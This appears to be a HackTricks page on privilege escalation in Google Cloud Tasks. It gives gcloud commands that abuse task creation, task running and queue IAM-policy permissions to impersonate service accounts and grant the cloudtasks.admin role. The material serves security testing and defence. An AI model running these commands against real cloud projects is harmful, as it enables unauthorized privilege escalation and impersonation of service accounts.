 # GCP - Cloud Tasks Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Cloud Tasks

### `cloudtasks.tasks.create`, `iam.serviceAccounts.actAs`

An attacker with these permissions can **impersonate other service accounts** by creating tasks that execute with the specified service account's identity. This allows sending **authenticated HTTP requests to IAM-protected Cloud Run or Cloud Functions** services.

```bash
gcloud tasks create-http-task \
  task-$(date '+%Y%m%d%H%M%S') \
  --location us-central1 \
  --queue <queue_name> \
  --url 'https://<service_name>.us-central1.run.app' \
  --method POST \
  --header 'X-Hello: world' \
  --body-content '{"hello":"world"}' \
  --oidc-service-account-email <account>@<project_id>.iam.gserviceaccount.com
```

### `cloudtasks.tasks.run`, `cloudtasks.tasks.list`

An attacker with these permissions can **run existing scheduled tasks** without having permissions on the service account associated with the task. This allows executing tasks that were previously created with higher privileged service accounts.

```bash
gcloud tasks run projects/<project_id>/locations/us-central1/queues/<queue_name>/tasks/<task_id>
```

The principal executing this command **doesn't need `iam.serviceAccounts.actAs` permission** on the task's service account. However, this only allows running existing tasks - it doesn't grant the ability to create or modify tasks.

### `cloudtasks.queues.setIamPolicy`

An attacker with this permission can **grant themselves or other principals Cloud Tasks roles** on specific queues, potentially escalating to `roles/cloudtasks.admin` which includes the ability to create and run tasks.

```bash
gcloud tasks queues add-iam-policy-binding \
  <queue_name> \
  --location us-central1 \
  --member serviceAccount:<account>@<project_id>.iam.gserviceaccount.com \
  --role roles/cloudtasks.admin
```

This allows the attacker to grant full Cloud Tasks admin permissions on the queue to any service account they control.

## References

- [Google Cloud Tasks Documentation](https://cloud.google.com/tasks/docs)

{{#include ../../../banners/hacktricks-training.md}}
